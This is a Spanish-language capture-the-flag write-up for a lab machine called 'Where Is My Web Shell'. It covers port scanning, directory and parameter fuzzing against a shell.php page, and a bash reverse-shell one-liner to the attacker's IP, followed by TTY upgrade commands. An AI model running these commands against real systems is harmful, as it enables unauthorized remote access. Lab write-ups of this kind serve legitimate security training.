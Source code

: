 # MÁQUINA WHERE IS MY WEB SHELL

Lo primero que tendremos que hacer será realizar un escaneo de puertos a la máquina víctima usando nmap:

```shell
nmap -p- -sS -sC -sV -vvv --min-rate 5000 -Pn 172.17.0.2
```

![NMAP](https://github.com/Isma-yo/photos/blob/main/Where%20Is%20My%20Web%20Shell/foto.jpg)

Únicamente está abierto el puerto 80, así que vamos a ver su contenido:

![WEB](https://github.com/Isma-yo/photos/blob/main/Where%20Is%20My%20Web%20Shell/foto2.jpg)

En el código fuente no hay nada extraño, sin embargo podemos ver que al final de la página nos dice que hay algo en el tmp, habrá que tenerlo en cuenta.

No podemos hacer nada más, así que vamos con el fuzzing web para ver directorios o ficheros hay por ahí:

```shell
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt
```

![FUZZ](https://github.com/Isma-yo/photos/blob/main/Where%20Is%20My%20Web%20Shell/foto3.jpg)

Hay 2 página interesantes, la de warning.html y la de shell.php. Vamos a ver que hay en el html:

![HTML](https://github.com/Isma-yo/photos/blob/main/Where%20Is%20My%20Web%20Shell/foto4.jpg)

Nos esta dando una pista de que podemos hacer ejecución remota de comandos si conseguimos obtener el parámetro adecuado. Por lo que vamos a usar wfuzz para ver si encontramos el parámetro:

```shell
wfuzz -c -t 200 --hl=0 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://172.17.0.2/shell.php?FUZZ=id"
```

![WFUZZ](https://github.com/Isma-yo/photos/blob/main/Where%20Is%20My%20Web%20Shell/foto5.jpg)

Y encontramos que ese parámetro del que nos hablaba era parameter, ahora que ya lo sabemos vamos a enviarnos una reverse shell para acceder a la máquina:

```shell
bash -c "bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261"
```

![BASH](https://github.com/Isma-yo/photos/blob/main/Where%20Is%20My%20Web%20Shell/foto6.jpg)

Ya estamos dentro, ahora tendremos que tratar la tty (terminal) con los siguientes comandos:

```shell
script /dev/null -c bash
```

```shell
Control Z
```

```shell
stty raw -echo; fg
```

```shell
reset xterm
```

```shell
export TERM=xterm
```

```shell
export SHELL=bash
```

```shell
stty rows 24 columns 126
```

Si nos acordamos nos habían dicho que en el directorio tmp había algo, por lo que vamos a ver que hay:

![ROOT](https://github.com/Isma-yo/photos/blob/main/Where%20Is%20My%20Web%20Shell/foto7.jpg)

Y ya somos root!









